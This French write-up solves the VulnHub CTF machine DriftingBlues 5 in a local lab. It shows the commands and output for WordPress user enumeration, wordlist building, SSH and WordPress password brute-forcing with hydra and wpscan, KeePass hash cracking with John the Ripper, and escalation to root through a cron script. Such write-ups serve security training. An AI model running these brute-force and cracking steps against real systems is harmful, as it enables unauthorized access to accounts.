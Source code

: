 # Solution du CTF DriftingBlues #5 de VulnHUb

Le 5ème élément
---------------

Challenge téléchargeable sur VulnHub [à cette adresse](https://www.vulnhub.com/entry/driftingblues-5,662/). Nmap nous indique tout de suite la présence d'un Wordpress.  

```plain
$ sudo nmap -sCV -T5 -p- 192.168.56.10 
[sudo] Mot de passe de root :  
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for 192.168.56.10 
Host is up (0.00039s latency). 
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-generator: WordPress 5.6.2 
|_http-title: diary – Just another WordPress site 
|_http-server-header: Apache/2.4.38 (Debian)
```

C'est toujours mieux d'avoir un outil pour énumérer les utilisateurs au lieu de le faire à la main :  

```plain
$ docker run -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -e ap,at,u
--- snip ---

[+] abuzerkomurcu 
 | Found By: Author Posts - Author Pattern (Passive Detection) 
 | Confirmed By: 
 |  Rss Generator (Passive Detection) 
 |  Wp Json Api (Aggressive Detection) 
 |   - http://192.168.56.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1 
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 |  Login Error Messages (Aggressive Detection) 

[+] gill 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] collins 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] satanic 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] gadd 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme cette série de CTFs se prête volontiers aux jeux de pistes j'ai directement extrait les mots des pages web en utilisant CeWL. Exemple :  

```plain
$ docker run -it --rm cewl http://192.168.56.10/index.php/2021/02/24/a-deep-dive-on-the-blancpain-fifty-fathoms/ >> words.txt
```

Bien sûr on prendra soin de trier et de retirer les doublons (voir pages de manuel de sort et uniq) avant de bruteforcer.  

```plain
$ docker run -v /tmp/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -U abuzerkomurcu,gill,collins,satanic,gadd -P /data/words.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: gill, Password: interchangeable
```

Hmmm cet utilisateur n'est pas l'admin. Il peut uploader des médias mais le type de fichier est vérifié...  

Sur le Wordpress je remarque une page de brouillon baptisée *Privacy Policy — Draft, Privacy Policy Page* malheureusement je ne peux pas y accéder.  

Dans la liste des images uploadées il y a le fichier *dblogo.png*. Il ne m'avait pas spécialement attiré, d'autant plus que les dossiers sous */wp-content/uploads/* sont listables, il n'y a donc aucun besoin d'obtenir un compte sur le Wordpress pour le retrouver. Quoiqu'il en soit si on le regarde avec un éditeur hexa on trouve ce tag EXIF :  

```html
<rdf:li photoshop:LayerName="ssh password is 59583hello of course it is lowercase maybe not " photoshop:LayerText="ssh password is 59583hello of course it is lowercase maybe not :)"/>
```

Je n'avais pas envie de me casser la tête dessus alors j'ai réutilisé un code Python [ici](https://www.geeksforgeeks.org/permute-string-changing-case/). Il n'est pas parfait, il génère des dupliquas quand le mot contient des caractères autres que des lettres.  

Une fois la wordlist avec les permutations générées on se rend compte que ça ne servait à rien :  

```plain
$ hydra -L users.txt -P cases.txt ssh://192.168.56.10 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 160 login tries (l:5/p:32), ~10 tries per task 
[DATA] attacking ssh://192.168.56.10:22/ 
[22][ssh] host: 192.168.56.10   login: gill   password: 59583hello 
1 of 1 target successfully completed, 1 valid password found
```

L'accès SSH obtenu permet d'obtenir un premier flag.  

Password exchange
-----------------

Dans le dossier de l'utilisateur se trouve une archive pour le gestionnaire de mots de passe Keypass. On utilise un utilitaire de *John The Ripper* pour en obtenir un hash :  

```plain
$ keepass2john keyfile.kdbx  
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fce13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b
1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd
```

C'est cassé relativement rapidement sans GPU :  

```plain
$ john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8 
Loaded 1 password hash (KeePass [SHA256 AES 32/64]) 
Cost 1 (iteration count) is 60000 for all loaded hashes 
Cost 2 (version) is 2 for all loaded hashes 
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
porsiempre       (keyfile)
```

On en extrait les entrées suivantes :  

```plain
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

Aucun de ces mots de passe n'est accepté pour *root* que ce soit via *su* ou *SSH*... oups.  

LinPEAS indique la présence d'un dossier inhabituel à la racine :  

```plain
╔══════════╣ Unexpected in root 
/vmlinuz.old 
/initrd.img 
/initrd.img.old 
/vmlinuz 
/keyfolder
```

Ce dernier dossier est vide... WTF !  

Si on vérifie les processus lancés sur la machine avec *pspy* on voit une tache cron :  

```plain
2022/01/20 13:00:01 CMD: UID=0    PID=14314  | /usr/sbin/CRON -f  
2022/01/20 13:00:01 CMD: UID=0    PID=14315  | /bin/sh -c /root/key.sh  
2022/01/20 13:00:01 CMD: UID=0    PID=14316  | /bin/bash /root/key.sh
```

Et le script en question n'est pas accessible. Ma seule idée a été de créer des fichiers ayant le nom des pass précédemment trouvés dans le dossier. L'idée était finalement correcte mais il ne fallait placer qu'un seul fichier à la fois. Ainsi avec *fracturedocean* la tache CRON faisait apparaître un fichier *rootcreds.txt* avec le contenu suivant :  

```plain
root creds 

imjustdrifting31
```

Ces identifiants permettent bien sûr l'accès root et l'obtention du flag final.  

Sous le capot
-------------

Voici le script lié à la tache CRON :  

```bash
#!/bin/bash 

if [[ $(ls /keyfolder) == "fracturedocean" ]]; then 
        echo "root creds" >> /keyfolder/rootcreds.txt 
        echo "" >> /keyfolder/rootcreds.txt 
        echo "imjustdrifting31" >> /keyfolder/rootcreds.txt 
fi

```

Un peu déçu sur ce CTF par rapport aux autres en raison d'un peu de guessing. Il aurait fallut que l'image ait un nom plus explicite et le script final devrait fonctionner à partir du moment où le fichier attendu est présent.  


*Published January 20 2022 at 18 11*